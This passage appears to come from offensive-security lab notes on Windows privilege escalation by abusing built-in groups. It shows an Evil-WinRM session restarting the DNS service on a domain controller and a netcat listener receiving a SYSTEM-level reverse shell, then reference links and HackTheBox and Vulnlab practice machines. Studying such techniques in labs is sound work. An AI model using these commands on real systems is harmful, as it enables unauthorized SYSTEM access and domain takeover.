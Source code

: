 ```powershell
        WAIT_HINT          : 0x0
```
```powershell
*Evil-WinRM* PS C:\temp> sc.exe \\<DC> start dns

SERVICE_NAME: dns 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3500
        FLAGS
```
```bash
➜  rlwrap nc -nlvp 9001
...

PS C:\Windows\system32> whoami
nt authority\system
```
# Resources
- https://x.com/fr0gger_/status/1379465943965909000
- https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/
- https://github.com/k4sth4/SeLoadDriverPrivilege
- https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/access-tokens
- https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens
- https://x.com/splinter_code/status/1568548572861267968
- https://gist.github.com/antonioCoco/19563adef860614b56d010d92e67d178
- https://snowscan.io/htb-writeup-blackfield/
- https://snowscan.io/htb-writeup-resolute/
- https://www.thehacker.recipes/a-d/movement/domain-settings/builtin-groups
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise
## Machines to try:
- Baby (Vulnlab)
- Blackfield (HackTheBox)
- Resolute (HackTheBox)
- Fuse (HackTheBox)
- POV (HackTheBox)
- Job (Vulnlab)
- Sidecar (Vulnlab)
